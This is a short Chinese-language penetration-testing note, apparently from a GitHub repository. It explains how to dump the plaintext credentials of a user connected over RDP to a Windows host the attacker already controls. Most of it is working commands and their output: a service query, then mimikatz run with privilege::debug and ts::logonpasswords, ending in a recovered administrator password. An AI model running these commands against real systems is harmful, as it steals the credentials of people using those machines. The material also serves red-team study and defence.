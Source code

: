 ![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/5ad43cccb324a24e.png)

## Dumping RDP Credentials

### 获取正在进行 RDP 连接的用户凭证

情况一：在获取到目标主机控制权后，发现有人正在 RDP 连接当前主机。

可以在当机上运行 mimikatz 从正在运行 RDP 会话中提取出当前用户的明文凭据：（在高版本的 windows 主机中并不好用）

```console
C:\Users\Administrator\Desktop> sc query termservice

SERVICE_NAME: termservice
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Windows\System32> .\mimikatz.exe 'privilege::debug' 'ts::logonpasswords' 'exit'

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # ts::logonpasswords
!!! Warning: false positives can be listed !!!

   * Web Credentials? *
   Domain      : hostname_domain
   UserName    : administrator

  * Marshaled: [BinaryBlob] e7 03 00 00 00 00 00 00 0b e6 d8 02 90 0e 14 47 43 28 17 8f 81 6d 15 78 4f 98 25 11 12 ea a0 98
   * Web Credentials? *
   Domain      : hostname_domain
   UserName    : administrator

  * Marshaled: [BinaryBlob] e7 03 00 00 00 00 00 00 0b e6 d8 02 90 0e 14 47 43 28 17 8f 81 6d 15 78 4f 98 25 11 12 ea a0 98
   * Web Credentials? *
   Domain      : hostname_domain
   UserName    : administrator

  * Marshaled: [BinaryBlob] e7 03 00 00 00 00 00 00 0b e6 d8 02 90 0e 14 47 43 28 17 8f 81 6d 15 78 4f 98 25 11 12 ea a0 98
   Domain      : hostname_domain
   UserName    : Administrator
   Password/Pin: Admin@123

mimikatz(commandline) # exit
Bye!

```
